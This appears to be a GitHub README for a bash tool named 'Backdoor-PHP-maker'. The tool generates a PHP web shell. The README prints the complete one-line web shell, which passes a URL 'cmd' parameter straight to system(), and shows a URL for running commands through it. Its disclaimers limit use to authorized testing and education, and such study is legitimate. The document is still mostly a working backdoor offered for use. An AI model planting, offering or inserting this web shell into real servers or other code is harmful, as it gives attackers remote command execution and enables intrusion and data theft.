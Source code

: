 # Backdoor-PHP-maker

This is a simple bash script that creates a PHP file that allows remote execution of system commands. The generated PHP file contains a backdoor, which can be used to run arbitrary shell commands via a URL query parameter. 

**WARNING**: This script is potentially dangerous and should not be used in production environments or on unauthorized systems. It is provided for educational purposes only. Misuse of this script may be illegal and unethical.

## Features

- Prompts the user to input a filename.
- Creates a PHP file with the name specified by the user.
- The generated PHP file contains a remote command execution vulnerability, where an attacker can execute arbitrary system commands by providing a `cmd` parameter in the URL.

## How it works

1. The script prints a message indicating the creation of a backdoor.
2. The user is prompted to enter a filename for the PHP file to be created.
3. The PHP file is created with the following content:
    ```php
    <?php system($_GET["cmd"]); ?>
    ```
4. The script writes this content into a `.php` file with the name specified by the user.

### Example Usage

If you run the script and input `backdoor`, it will create a file called `backdoor.php` with the following content:
```php
<?php system($_GET["cmd"]); ?>
This file can be accessed via a URL like:

bash
Copy code
http://<yourserver>/backdoor.php?cmd=ls
This would execute the ls command on the server, displaying the contents of the current directory.

DISCLAIMER
This script is NOT intended for malicious use. Use this only in controlled environments,
such as penetration testing or educational labs, where you have explicit permission to
test for vulnerabilities. Unauthorized access to systems is illegal.

To use:
Clone this repository or copy the script to your local machine.
Run the script on a Linux/Unix-based server with bash and PHP installed.
Enter a filename when prompted. The script will create a .php file with the specified name.
